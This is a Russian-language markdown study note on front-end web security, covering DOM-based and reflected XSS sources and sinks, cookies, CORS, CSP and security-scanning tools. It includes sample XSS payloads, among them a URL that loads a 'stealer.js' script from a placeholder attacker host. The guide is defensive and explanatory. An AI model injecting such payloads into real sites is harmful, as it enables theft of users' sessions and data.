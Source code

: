 ### Безопасность клиентских веб приложений

#### Межсайтовый сприптинг (cross site scripting - XSS) - характеризуется обходом SOP (Same origin policy)
1) XSS
    - 1.1) - DOM-XSS Для фронтенд актуален тип атак DOM-XSS - когда скрипт встраивается в DOM через легитимный код.
        Требует наличия двух условий
        - sources (источники загружаемого вредоносногот кода)
            - document.URL, location, document.referer, window.name, localStorage, cookies
        - sinks - точки исполнения
            - eval, document.write, element.innerHTML, element.src, setTimeout/setInterval, execScript
        - Примеры
        ```js 
            <input value="">
            <iframe SRC="javascript:alert('XSS')"></iframe>
        или
            <input value=""><img src=i oneerror=alert('xss')>
      ```
 
    - 1.2) Reflect XSS - Так же может быть проведен через пользовательские сообщения содержащие ссылки в Вашем приложении
(комментарии, сообщения - `http://forum.by?searchnews<\script%20src="http://hackersite/stealer.js`)
Анализ кода регулярками - перед отправкой на сервер другим клиентам
        - Фильтрация пользовательских форм - представление спецсимолов через escape символы, для ограждения
    от запуска скриптов
        - сантитаризация данных форм
2) Утечки информации - когда js/css файлы содержат информацию об инфраструктуре системы. Следить за тем чтобы
переменные не хранили секреты в открытом виде
3) Фреймворки и библиотеки - актуализация версий, анализ исходного кода библиотек
4) Cookies - включить http-only запрет доступа со стороны js
5) Сетевые запросы со стороны библиотек - мониторинг сетевых запросов
6) CORS - запрет на стороне сервера или ведение списка разрешенных ресурсов
7) WebSockets - нет нативной авторизации, использовать WSS
8) Отсутствие списка разрешенных ресурсов (Content Security Policy - CSP)
9) Flash - не использовать
10) Сохранение конфиденциальных данных в репозитории

#### Автоматизация процесса проверки безопасности
- анализ библиотек  npm audit, Snyk и LGTM
- использование анализаторов приложения при CI/CD
- ESLinit - security plugin
- Фреймворки (OpenVAS, Offensive Web Testing Framework, OWASP Xenotix XSS Exploit Framework)
- Online (CIRT.net, Grandel-Scan, Grabber, Acunetix, cWatch, Approof, SecurityHeaders.io, 
Observatory by Mozilla, One button scan)
- WebpackPlugins - прописывать CSP (html-webpack-plugin, html-webpack-exclude-assets-plugin, 
script-ext-html-webpack-plugin, csp-html-webpack-plugin и crypto, webpack-subresource-integrity-plugin)

Библиография
1) https://habr.com/ru/company/dsec/blog/259389/
2) https://habr.com/ru/company/jugru/blog/349630/
3) https://owasp.org/
4) https://habr.com/ru/post/445932/